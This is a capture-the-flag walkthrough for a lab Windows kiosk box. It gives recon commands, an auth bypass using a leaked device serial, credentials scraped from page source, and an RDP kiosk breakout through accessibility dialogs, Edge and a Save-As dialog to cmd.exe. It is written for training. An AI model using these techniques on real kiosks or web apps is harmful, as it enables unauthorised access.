# Touch — Hands-On Walkthrough (the *decision tree*, not the happy path)

> **Box:** Touch · easy · **Windows 11 Pro** (Build 26100, host `KIOSK-042`)
> **IP used here:** `10.129.X.X` (yours WILL differ — the box respawns and the IP changes every
> time; substitute your current one everywhere. Last sessions used `$TARGET`, then
> `$TARGET` — both dead now.)
> **Final chain:**
> `8443 unauth info-disclosure (device serial) → DeviceHub auth bypass → dashboard leaks Windows creds → RDP as KioskUser (kiosk-locked) → Win+U / Narrator accessibility escape → Edge → Save-As dialog → cmd.exe (user.txt) → readable batch leaks MySQL root pw → MySQL UDF (sys_eval) runs as LocalSystem → SYSTEM → root.txt`
>
> This is written as *"at this point you have these options; I tried X, Y, Z; here's what died and
> why, and here's the way."* The dead-ends are the lesson — this box has **two big ratholes**
> (the `/login/badge` endpoint, and the Nexion printer plugin-DLL "TriggerDir" trail) that eat
> hours and lead nowhere. They're documented in Phase 4 and the Dead-Ends appendix so you can skip
> them.
>
> **How to read this doc:** after each command there's a **✅ Expected** block. If your output
> doesn't match, stop and fix *that* before moving on. The clean/straight version is `STORY.md`;
> the full evidence trail is `GLOBAL_CONTEXT.md`.

### ⚠️ Gotchas that cause 90% of "it's not working" (re-read when stuck)
1. **Use YOUR current tun0 IP, never a copy-pasted one.** `ip -br a | grep tun` shows it right now.
   The box IP also changes on every respawn — grab it from the HTB panel each session.
2. **Exactly ONE VPN tunnel.** Two `tun` devices with the same IP split return traffic and make the
   box read as uniformly "down/filtered" (bit us on Cap). Check before blaming the box (Phase 0).
3. **HTB blocks ICMP** — a failing `ping` proves nothing. Test reachability with a TCP connect.
4. **This is a headless Windows box — you drive RDP blind via screenshots.** If you've never done
   that, read Phase 0.5 *first*; it's the single most important mechanic for this box and the thing
   most people get stuck on.

---

## Phase 0 — Setup / connectivity

```bash
pgrep -a -f openvpn           # MUST be exactly one instance group
ip -br a | grep tun           # MUST be one tun0 @ your 10.10.x.x  -> note this IP, you reuse it
```
> **✅ Expected:** one openvpn group, one `tun0` with a `10.10.x.x` address. If you see `tun0`
> **and** `tun1` both on your IP, kill all openvpn and bring up exactly one:
> ```bash
> sudo pkill -9 -f openvpn; sudo openvpn machines_eu-2.ovpn &
> ```

```bash
export TARGET=10.129.X.X       # <-- your current box IP
for p in 135 3389 5985 8443; do (echo > /dev/tcp/$TARGET/$p) 2>/dev/null && echo "$p open"; done
```
> **✅ Expected:** `3389 open`, `5985 open`, `8443 open` (135 may or may not answer this way). If
> you get nothing for all of them, re-check gotcha #2 (dup tunnel) before assuming the box is down.

---

## Phase 0.5 — Driving a headless Windows box (READ THIS if RDP screenshots are new to you)

There is no GUI on Kali and no monitor on the target. You create a **fake in-RAM monitor**, point
the RDP client at it, and **screenshot that fake monitor** to see Windows. You click/type by
**injecting input into the fake monitor**. That's the entire mechanic — there is no live window to
watch; it's a blind *screenshot → look → click → screenshot* loop.

```bash
export DISPLAY=:99
Xvfb :99 -screen 0 1280x800x24 &     # 1. fake monitor "display :99", exists only in memory
# 2. RDP client PAINTS the Windows desktop into that fake monitor (note DISPLAY=:99):
DISPLAY=:99 xfreerdp /v:$TARGET /u:KioskUser /p:'K!0sk2026#' /cert:ignore \
    /w:1280 /h:800 +clipboard /sec:rdp &
```
| Action | Command (all need `DISPLAY=:99`) |
|---|---|
| **Screenshot Windows** | `DISPLAY=:99 import -window root /tmp/shot.png` (ImageMagick grabs the framebuffer) |
| **View the shot** | `feh /tmp/shot.png` / `eog /tmp/shot.png` (or just open it in your file browser) |
| **Move + click** | `DISPLAY=:99 xdotool mousemove 640 400 click 1` |
| **Press a key / combo** | `DISPLAY=:99 xdotool key super+u` · `key ctrl+l` · `key Return` |
| **Type text** | `DISPLAY=:99 xdotool type 'C:\Windows\System32\cmd.exe'` |

> **✅ Expected:** `import` writes a PNG, and opening it shows the actual Windows screen (e.g. the
> kiosk home screen below). Every screenshot in this doc under `loot/rdp_screens/` was made exactly
> this way. **Workflow tip:** after any click, take a fresh screenshot before the next click — you
> are flying on instruments.
>
> ⚠️ `/sec:rdp` is **required** — this host's RDP listener rejects NLA/TLS (`/sec:nla` →
> `SSL_NOT_ALLOWED_BY_SERVER`). If clicks on the outer "Touch to begin" attract screen stop
> registering after an idle timeout, **kill and reconnect `xfreerdp`** — don't retry clicks (a
> known touch-channel desync on this box).

---

## Phase 1 — Recon

```bash
nmap -p- --min-rate 2000 -oN nmap/allports.txt $TARGET
nmap -sC -sV -p135,3389,5985,8443 -oN nmap/targeted.txt $TARGET
```
> **✅ Expected:** only **four** ports, box is Windows —
> ```
> 135/tcp  open  msrpc          Microsoft Windows RPC
> 3389/tcp open  ms-wbt-server  Microsoft Terminal Services (RDP)
> 5985/tcp open  http           Microsoft-HTTPAPI/2.0   (WinRM; 404 on GET is normal)
> 8443/tcp open  http           Microsoft-HTTPAPI/2.0   (custom app — PLAIN HTTP, not TLS)
> ```
> ⚠️ Ports 80/443 are **not** open. And 8443 speaks **plain HTTP** (`curl http://...:8443`, not
> https) — a TLS handshake fails. Don't assume standard web ports/protocols here.

### Junction — which door?
| Option | Verdict | Why |
|---|---|---|
| WinRM (5985) | parked | No creds yet. (Later: KioskUser creds are tried here and **fail** — it's not a WinRM account.) |
| RDP (3389) | pursue later | Need creds first; lands in a kiosk lockdown (Phase 3). |
| **8443 web app** | **pursue first** | The only unauthenticated surface — and it hands you creds. |

---

## Phase 2 — Port 8443 "Nexion DeviceHub": info-disclosure → auth bypass → Windows creds

```bash
curl -s http://$TARGET:8443/login -o web/login.html           # confirms plain HTTP + grabs form
curl -s http://$TARGET:8443/api/status | jq                   # UNAUTHENTICATED
```
> **✅ Expected:** `/api/status` returns, with no auth, the device serial:
> ```json
> {"device":"Nexion DeviceHub DH-100","serial":"NX-DH-2024-B7042","firmware":"1.4.2",...}
> ```
> And `view-source` of `/login` shows the "Forgot your password?" link `title` literally says:
> *"The default password is the device serial number included in your DeviceHub packaging."*

**Junction — info-disclosure + "serial is the password" = auth bypass.** The serial leaked above
*is* the login password:
```bash
curl -s -i -X POST http://$TARGET:8443/login -d "password=NX-DH-2024-B7042" -c loot/cookies.txt
```
> **✅ Expected:** `302 Found`, `Location: /dashboard`, `Set-Cookie: nxsession=...`. If the serial
> differs on your spawn, re-read `/api/status` — don't hardcode it blindly.

```bash
curl -s -b loot/cookies.txt http://$TARGET:8443/dashboard -o web/dashboard.html
grep -iE 'KioskUser|K!0sk|password|toggleCred' web/dashboard.html
```
> **✅ Expected:** the dashboard **hardcodes the Windows device credentials in the page source**
> (behind a cosmetic JS "show" toggle — the value is already in the HTML):
> ```
> Username: KioskUser     Password: K!0sk2026#
> ```
> These are **real Windows credentials** (verified on RDP next). Re-grep to confirm on your spawn.

> **Dead-ends on this app (don't spend time here — see Dead-Ends appendix for proof):**
> `/login/badge` (broken GDI+ code, throws on *any* input), `/api/scanner/test-image` upload (no
> path traversal, no RCE), settings/printer mass-assignment, the `localhost:5173` link. All
> exhaustively tested. The web app's only job is to hand you the serial and the KioskUser creds.

---

## Phase 3 — RDP in → kiosk breakout → `cmd.exe` → **user.txt**

Connect (see Phase 0.5 for the headless mechanic):
```bash
export DISPLAY=:99
Xvfb :99 -screen 0 1280x800x24 &
DISPLAY=:99 xfreerdp /v:$TARGET /u:KioskUser /p:'K!0sk2026#' /cert:ignore /w:1280 /h:800 +clipboard /sec:rdp &
DISPLAY=:99 import -window root /tmp/shot.png && feh /tmp/shot.png
```
> **✅ Expected:** you land **straight into a full-screen kiosk app** — "HTB Airways — Self
> Check-In" — with **no Windows login prompt** (auto-logon). This confirms the creds work at the OS
> level, but you're trapped in a locked-down shell.
>
> 
> 

> **Junction — how do you escape a Windows kiosk?** (Load the `windows-kiosk-privesc` skill.)
> - Client-side RDP `/shell:cmd.exe` / `/app:` overrides → ❌ **dead**, enforced server-side (RDS
>   initial-program policy ignores client flags — proven, see Dead-Ends).
> - App/browser shortcuts (`F11`, `Alt+F4`, `Ctrl+T/N/W/P/S/U`, `Ctrl+Shift+Esc`, `Alt+Tab`,
>   right-click, devtools, long-press) → ❌ **all blocked** by a global input hook.
> - **Windows OS-level *accessibility* shortcuts → ✅ NOT blocked. This is the way.**

### The breakout (the actual trick)
1. Send **`Win+U`** (Ease of Access). This surfaces a **genuine native "Narrator updates" dialog**
   — a real OS window with its own title bar and *live hyperlinks*, rendered by the accessibility
   stack **outside** the kiosk lockdown.
   ```bash
   DISPLAY=:99 xdotool key super+u
   DISPLAY=:99 import -window root /tmp/shot.png && feh /tmp/shot.png
   ```
   > 
   > **✅ Expected:** a dialog titled "Narrator updates" with blue hyperlink text ("Narrator guide",
   > "Bluetooth and devices settings", …). *This dialog is the breakout point.* If it doesn't
   > appear, toggle Narrator with `Ctrl+Win+Enter` once and retry `Win+U` (it is not freely
   > repeatable — see Dead-Ends for the retrigger quirk).

2. **Click the "Narrator guide" hyperlink, then press Return** — this opens a **full, unsandboxed
   Microsoft Edge window** (real chrome: address bar, tabs, min/close).
   ```bash
   DISPLAY=:99 xdotool mousemove <x> <y> click 1   # on the "Narrator guide" link text
   DISPLAY=:99 xdotool key Return
   DISPLAY=:99 import -window root /tmp/shot.png && feh /tmp/shot.png
   ```
   > 
   > 
   > **✅ Expected:** a normal Edge window. The page itself fails to load (no internet in the lab) —
   > irrelevant; **the window is the win.**

3. **Quick flag read via `file://`** — in Edge's address bar (`Ctrl+L`) browse the filesystem:
   ```
   file:///C:/Users/                                   # Edge renders a directory listing
   file:///C:/Users/KioskUser/Desktop/user.txt         # read the flag in-browser
   ```
   > 
   > 
   > 
   > **✅ Expected:** the 32-hex `user.txt` renders in the browser. (Value rotates on respawn — save
   > yours to `loot/user.txt`.)

4. **Get a real shell** (needed for root) — in Edge press **`Ctrl+S`** (Save As) to open a genuine
   native Windows Save-File dialog, then:
   - Change **"Save as type"** from "TXT File" → **"All files"** (critical — the TXT filter hides
     `.exe`).
   - Click the dialog's address/breadcrumb bar, type `C:\Windows\System32\cmd.exe`, press Return.
   ```bash
   DISPLAY=:99 xdotool key ctrl+s
   # click the "Save as type" dropdown -> select "All files":
   DISPLAY=:99 import -window root /tmp/shot.png && feh /tmp/shot.png
   # then type the path into the dialog's address bar and Enter
   ```
   > 
   > 
   > 
   > **✅ Expected:** `cmd.exe` launches as a real window. *Why this works:* a common Save/Open
   > dialog is real Explorer-shell code; navigating it to an `.exe` and "opening" it **executes it**,
   > bypassing the kiosk's assigned-shell policy.

5. **Verify the shell + capture user.txt from the shell:**
   ```cmd
   whoami            :: -> kiosk-042\kioskuser
   hostname          :: -> KIOSK-042
   type C:\Users\KioskUser\Desktop\user.txt
   ```
